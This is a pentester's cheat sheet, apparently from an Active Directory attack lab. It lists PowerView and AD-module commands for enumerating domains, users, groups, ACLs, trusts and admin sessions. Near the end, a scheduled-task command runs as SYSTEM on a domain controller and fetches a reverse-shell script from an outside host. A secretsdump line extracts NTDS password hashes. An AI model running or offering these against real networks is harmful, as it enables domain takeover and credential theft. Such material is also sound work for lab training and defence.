 ### Mind Map
![pentest_ad.png](02%20Pentest%20Tips/AD_Attack/Attachments/pentest_ad.png)

### PowerView or AD module required

### Check Current Domain
```
Get-NetDomain
Get-ADDomain
```

### Check Object Another Domain
```
Get-NetDomain -Domain moneycorp.local
Get-ADDomain -Identity moneycorp.local
```

### Check SID current Domain
```
Get-DomainSID
(Get-ADDomain).DomainSID
```

### Check Domain Policy
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Check Domain Policy Another Domain
`(Get-DomainPolicy -domain moneycorp.local). “System Access”`

### Check Domain Controller current Domain
```
Get-NetDomainController
Get-ADDomainController
```

### Check Domain Controller Another Domain
```
Get-NetDomainController -Domain moneycorp.local
Get-ADDomainController -DomainName moneycorp.local -Discover
```

### 02%20Pentesters
```
Get-NetUser
Get-NetUser -Username student1
Get-ADUser -Filter * -Properties *
Get-ADUser -Identity student1 -Properties *
```

### Check Computers**

```
Get-NetComputer
Get-NetComputer -OperatingSystem Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
Get-ADComputer -Filter *select Name

Get-ADComputer -Filter ‘OperatingSystem like "*Server’ -Properties OperatingSystem | select Name, OperatingSystem

Get-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_DNSHostName}

Get-ADComputer -Filter * Properties *
```

### Check Groups**

```
Get-NetGroup
Get-NetGroup –Domain <targetdomain>
Get-NetGroup –FullData
Get-ADGroup -Filter * | select Name
Get-ADGroup -Filter * -Properties *
```

### Check USers Domain Admin**

```
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
Get-ADGroupMember -Identity "Domain Admins" -Recursive
```

### Check all Groups local (Necessarie DA)**

`Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups`

### Check Local Admin Access**
`Find-LocalAdminAccess`

### User Enumeration**
`Get-NetUser | select -ExpandProperty samaccountname`

### Computer enumerate**
`$enun_cmputer=Get-NetComputer`

### Enumerate ADM Groups**

```
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Enterprise Admins"
Get-NetGroupMember -GroupName "Enterprise Admins" –Domain moneycorp.local
```

### Checar compartilhamentos**
`Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC`

### Group Enumerate**

```
Get-NetGPOGroup
Get-NetGroupMember -GroupName RDPUsers
```

### Enumerate OUs**
`Get-NetOU`

### Enumerate Specific OU**
`Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}`

### List GPOS**
`Get-NetGPO`

### Enumnerar GPO aplicada OU**

```
(Get-NetOU StudentMachines -FullData).gplink

[LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local;0]

```

### Enumerate ACL**
`Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose`

### ACL Domain Admin enumerate**
`Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose`

### Enumerar ACL para todas GPO**
`Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}`

### Enumerar local onde user ou Group tem permissao**

```

Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ?{$_.IdentityReference -match "student13"}

Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReferenceName -match "RDPUsers"}
```

### Enumerar Diretorio Bloqueado**
`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

### Enumerator computador onde Domain Admin ou grupo possui acesso**

```
Invoke-UserHunter -CheckAccess
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
```

### Enumerar todos dominios**
`Get-NetForestDomain -Verbose`

### Mapear confiaça com dominio**
`Get-NetDomainTrust`

### Maperar confiança com floresta**
`Get-NetForestDomain -Verbose | Get-NetDomainTrust`

### Enumerar dominios externos**

`Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}`

### Identificar dominios confiaveis externo**
`Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}`

### Achar local onde domain admin esta logado.**
`Invoke-UserHunter -Stealth`

### Schedule task**

`schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck224" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.13/minireverso.ps1''')'"`

### Execute Task**
`schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "student13"`

### Delete Task**
`schtasks /delete /S dcorp-dc.dollarcorp.moneycorp.local /TN "student13"`

### Extract Hash NTDS**

`/usr/share/doc/python3-impacket/examples/secretsdump.py -system registry/SYSTEM -ntds "Active Directory/ntds.dit" -hashes LMHASH:NTHASH  LOCAL -outputfile  nomearquivoagerar`
